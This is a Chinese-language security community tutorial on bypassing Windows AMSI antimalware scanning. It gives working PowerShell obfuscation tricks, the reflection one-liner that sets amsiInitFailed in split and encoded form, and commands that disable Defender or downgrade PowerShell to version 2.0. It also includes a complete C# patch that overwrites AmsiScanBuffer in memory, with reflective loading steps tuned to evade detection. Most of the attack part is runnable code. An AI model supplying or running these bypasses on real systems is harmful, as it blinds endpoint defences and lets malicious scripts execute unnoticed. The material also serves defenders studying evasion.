# Bypass AMSI - 先知社区

Bypass AMSI

- - -

微软介绍：[反恶意软件扫描接口 (AMSI) - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/amsi/antimalware-scan-interface-portal)

amsi 工作原理：

**服务和应用程序可以通过 AMSI 来与系统中已安装的反病毒软件进行通信，也就是 Windows Defender，AMSI 采用了 hook 方法进行检测，详细的工作原理如下：**

-   **创建 PowerShell 进程时，AMSI.DLL 将从磁盘加载到其内存地址空间。**
-   **在 AMSI.DLL 中，有一个名为 AmsiScanBuffer() 的函数，是用来扫描脚本内容的函数。**
-   **在 PowerShell 中执行命令时，任何内容都将首先发送到 AmsiScanBuffer()，然后再执行。**
-   **随后，AmsiScanBuffer() 将 Windows Defender 检查，以确定是否创建了任何签名。**
-   **如果该内容被认为是恶意的，它将被阻止运行。**

简单说一下 amsi 就是当用户执行脚本或启动 PowerShell 时，AMSI.dll 被动态加载进入内存空间。在执行之前，防病毒软件使用以下两个 API 来扫描缓冲区和字符串以查找恶意软件的迹象。  
  AmsiScanBuffer()  
  AmsiScanString()

在 Windows Server 2016 和 Win10 上已经默认安装并启用。他的本体是一个 DLL 文件，存在于 c:\\windows\\system32\\amsi.dll。

**AMSI 的整体架构如图所示：**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303101821-4ea5a6e2-d904-1.png)

AMSI 功能已集成到 Windows 10 的这些组件中。

-   用户帐户控制或 UAC（EXE、COM、MSI 或 ActiveX 安装的提升）
-   PowerShell（脚本、交互使用和动态代码评估）
-   Windows 脚本宿主（wscript.exe 和 cscript.exe）
-   JavaScript 和 VBScript
-   Office VBA 宏（VBE7.dll）
-   .NET Assembly（clr.dd）
-   WMI

下面是一个项目，记录了使用 amsi 的杀软：  
[subat0mik/whoamsi: An effort to track security vendors' use of Microsoft's Antimalware Scan Interface (github.com)](https://github.com/subat0mik/whoamsi/)

## 字符串检测

powershell 中输入‘amsiutils’，直接就会报毒

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303101849-5f2da136-d904-1.png)

### 字符串拼接

那我们直接拼接试试呢，就可以了，当然在大部分情况下还是会被查杀的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303101859-655edfd4-d904-1.png)

### 字符串编码

我们可以尝试采用 base64 或者 xor 编码进行绕过

base64 的命令如下，一下子就绕过去了

```plain
$base64EncodedString = "YW1zaXV0aWxz"  # 替换为你的 Base64 编码字符串
$decodedBytes = [System.Convert]::FromBase64String($base64EncodedString)
$decodedString = [System.Text.Encoding]::UTF8.GetString($decodedBytes)

Write-Output $decodedString
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303101910-6bf94be0-d904-1.png)

xor 的命令如下，可以看到也是成功绕过：

```plain
# 定义 XOR 密钥
$key = 0x11  # 这里的 0xAB 可以替换为你的 XOR 密钥

# 定义 XOR 编码的字符串
$encodedString = "p|bxdex}b"  # 替换为你的 XOR 编码字符串

# 将编码的字符串转换为字节数组
$encodedBytes = [System.Text.Encoding]::UTF8.GetBytes($encodedString)

# 对每个字节进行 XOR 解码
$decodedBytes = foreach ($byte in $encodedBytes) { $byte -bxor $key }

# 将解码的字节数组转换为字符串
$decodedString = [System.Text.Encoding]::UTF8.GetString($decodedBytes)

Write-Output $decodedString
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303101925-7493ca5a-d904-1.png)

### 一个脚本绕过的实例

上面这几种方法都是为了绕过"字符串检测"，但是实际过程中，我们需要执行我们的脚本，也就脚本被 AMSI 阻止，我们通过一个实例来演示下绕过 AMSI。

下面这个是 16 年老外发布的关闭 amsi 的命令。这段代码的主要功能是通过反射访问 `AmsiUtils` 类中的 `amsiInitFailed` 字段，将其值设置为 `$true`，从而绕过 AMSI 扫描。

```plain
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

直接就报毒：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303101940-7da72b14-d904-1.png)

然后我们进行分割，不一句话执行：

```plain
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('amsiInitFailed','NonPublic,Static')
$b.SetValue($null,$true)
```

可以看到前两条命令仍然被杀，这两条命令是反射访问类中字段的，所以我们要想办法进一步绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303101954-85cf00be-d904-1.png)

我们把类名和字段名进行拆分，然后通过参数的形式赋给我们的命令，可以看到现在已经不查杀了

```plain
$a = 'System.Management.Automation.A';$b = 'ms';$c = 'Utils'
$d = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$c))
$e = $d.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$e.SetValue($null,$true)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102003-8b852664-d904-1.png)

当然你也可以像上面一样进行编码绕过，这里不再演示

看一下效果，ok 了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102013-914d38c0-d904-1.png)

## 禁用 AMSI

### 修改注册表

将`HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable`的表项值置为 0。但是需要管理员权限，尽量不使用此种方法。

### 关闭 Windows Defender 使系统自带的 AMSI 检测无效化。

需要管理员权限，尽量不使用此种方法。

```plain
Set-MpPreference -DisableRealtimeMonitoring $true
```

## 降低 powershell 版本

因为低版本 (2.0) 的 powershell 是没有 amsi 的，所以在 powershell2.0 上执行恶意脚本就不会被检测到

下图是 powershell 在各个系统上的预装情况，可以看到现在常见的 win10、Windows 2016、2019 很少预装有 powershell2.0（amsi 是从 win10、2016 开始存在的），但是由于很多服务需要低版本的 powershell，所以在红蓝对抗中也会碰到装有 powershell2.0 的机器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102023-97362e86-d904-1.png)

查看当前 powershell 版本

```plain
$PSVersionTable
```

判断能否使用 powershell 2.0

```plain
注：非管理员权限
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -recurse | Get-ItemProperty -name Version -EA 0 | Where { $_.PSChildName -match '^(?!S)\p{L}'} | Select -ExpandProperty Version

注：需要管理员权限
Win10：
Get-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2

Win2016/Win2019
Get-WindowsFeature PowerShell-V2
```

使用下面的命令就可以切换 powershell 的版本为 2.0。

```plain
powershell.exe -version 2
```

## **Memory Patching**

AMSI 检测相关 api 的调用顺序

1.  AmsiInitialize – 初始化 AMSI API.
2.  AmsiOpenSession – 打开 session
3.  AmsiScanBuffer – scans the user-input.
4.  AmsiCloseSession – 关闭 session
5.  AmsiUninitialize – 删除 AMSI API

因为 amsi 是基于字符串静态扫描的，用到的函数是 `AmsiScanBuffer`，我们是不是可以 hook 该函数，使其返回我们需要的值呢？理则是修改 AmsiScanBuffer 函数的参数值（两个思路，一个是修改扫描长度，另一个是修改返回值）。

根据微软官方文档，`AmsiScanBuffer`函数应该返回`HRESULT`类型值，这是一个整数值，用来表示操作是否成功。在我们的例子中，如果该函数成功，那么就应当返回`S_OK`（`0x00000000`），否则应该返回`HRESULT`错误代码。

函数的原型如下

```plain
HRESULT AmsiScanBuffer(
  [in]           HAMSICONTEXT amsiContext,
  [in]           PVOID        buffer,
  [in]           ULONG        length,
  [in]           LPCWSTR      contentName,
  [in, optional] HAMSISESSION amsiSession,
  [out]          AMSI_RESULT  *result
);
```

这个函数的主要功能是返回需要扫描的内容是否存在问题，这也是`result`变量会作为参数传递给`AmsiScanBuffer`函数的原因所在。这个变量的类型为`AMSI_RESULT`枚举类型。

对应的枚举原型如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102037-9fd387a0-d904-1.png)

在函数执行过程中，待分析的内容会被发送到反恶意软件服务，后者会返回`1`到`32762`（含）之间的一个整数。整数值越大，则代表风险越高。如果证书大于或等于`32762`，那么就会将其判断为恶意数据，加以阻止。随后系统会根据返回的整数值来更新`AMSI_RESULT`变量值。

所以说我们可以让函数直接返回 0，代表 AMSI\_RESULT\_CLEAN，或者改成别的负数，代表在扫描的过程中出现了一些问题，比如说 80070057h，就代表`HRESULT_FROM_WIN32(ERROR_INVALID_PARAMETER)`，表示参数无效，而我们如果逆向一下这个函数也会发现函数在执行开始会先检查参数，如果参数出现错误就直接返回这个错误代码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102047-a539c286-d904-1.png)

所以我们的代码可以如下：

```plain
using System;
using System.Runtime.InteropServices;

namespace Bypass
{
    public class AMSI
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static int Disable()
        {
            IntPtr TargetDLL = LoadLibrary("amsi.dll");
            if (TargetDLL == IntPtr.Zero)
            {
                Console.WriteLine("ERROR: Could not retrieve amsi.dll pointer.");
                return 1;
            }

            IntPtr AmsiScanBufferPtr = GetProcAddress(TargetDLL, "AmsiScanBuffer");
            if (AmsiScanBufferPtr == IntPtr.Zero)
            {
                Console.WriteLine("ERROR: Could not retrieve AmsiScanBuffer function pointer");
                return 1;
            }

            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            if (!VirtualProtect(AmsiScanBufferPtr, dwSize, 0x40, out Zero))
            {
                Console.WriteLine("ERROR: Could not change AmsiScanBuffer memory permissions!");
                return 1;
            }


    Byte[] Patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
    Marshal.Copy(Patch, 0, unmanagedPointer, 6);
    MoveMemory(AmsiScanBufferPtr ,unmanagedPointer, 6);


            Console.WriteLine("AmsiScanBuffer patch has been applied.");
            return 0;
        }
    }
}
```

c#这段码的功能就是在`AmsiScanBuffer`的函数地址处直接打补丁，补丁汇编是 (推荐汇编转 16 进制网站[Online x86 and x64 Intel Instruction Assembler (defuse.ca)](https://defuse.ca/online-x86-assembler.htm#disassembly))：

```plain
mov eax,0x80070057
ret
```

我们将代码直接保存为 source.cs，然后用 ps 去编译，命令如下：

```plain
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "Bypass-AMSI.dll"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102107-b125f57e-d904-1.png)

报毒，我们然后我们把 dll 文件进行 base64 编码（Kali 下，直接使用 base64 -i 文件名，就可以得到 base64 编码），然后使用 powershell 进行武器化，反射加载，也是直接被秒

```plain
unction Bypass-AMSI
{
    if(-not ([System.Management.Automation.PSTypeName]"Bypass.AMSI").Type) {
        [Reflection.Assembly]::Load([Convert]::FromBase64String("你的 base64 编码")) | Out-Null
        Write-Output "DLL has been reflected";
    }
    [Bypass.AMSI]::Disable()
}
```

落地就被杀

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102124-bbbcdb9c-d904-1.png)

接下来我们用[https://github.com/RythmStick/AMSITrigger来进行定位哪些内容被查杀。](https://github.com/RythmStick/AMSITrigger%E6%9D%A5%E8%BF%9B%E8%A1%8C%E5%AE%9A%E4%BD%8D%E5%93%AA%E4%BA%9B%E5%86%85%E5%AE%B9%E8%A2%AB%E6%9F%A5%E6%9D%80%E3%80%82)

这里我放到本地进行检测 ps1 文件的话一直被杀，所以我放到了云服务器上使用-u 参数进行检测。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102136-c2b2594a-d904-1.png)

由于 base64 编码后的内容也被杀了，我们直接 base64 编码转换成 byte 数组。

```plain
$string = ''
 $a = [System.Convert]::FromBase64String('你的 base64 编码')
 $a | foreach {$string = $string + $_.ToString()+','}
 $string
```

然后修改我们的加载脚本，加载数组

```plain
function Bypass-AMSI
{
    if(-not ([System.Management.Automation.PSTypeName]"Bypass.AMSI").Type) {
        [Reflection.Assembly]::Load([byte[]]@(这里是上面得到的 byte 数组)) | Out-Null
        Write-Output "DLL has been reflected";
    }
    [Bypass.AMSI]::Disable();
}
```

再次进行分析，这次只剩下我们c#里面的一些字符串了，

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102146-c8b845de-d904-1.png)

更改 source.cs 里面代码如下，再次编译成 dll，base64，转换成 byte 数组，加载脚本，成功 bypass，效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102156-ce675a74-d904-1.png)

或者我们直接反射加载 dll

```plain
[Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("$pwd\By-AMSI.dll"))
[By.AM]::Disable()
```

效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240303102206-d4d691e0-d904-1.png)

成功绕过，当然，这种也可能会直接被杀，因为入口处的内存可能会被检测，这样的话我们就需要偏移一下补丁来规避内存检查，比如上面代码得到 addr 之后`addr=addr+3`，这里就不再细说（参考[ASMI 学习 - 总结 - yourse1f - 博客园 (cnblogs.com)](https://xz.aliyun.com/t/_www.cnblogs.com_-zhong_p_15667734)）。
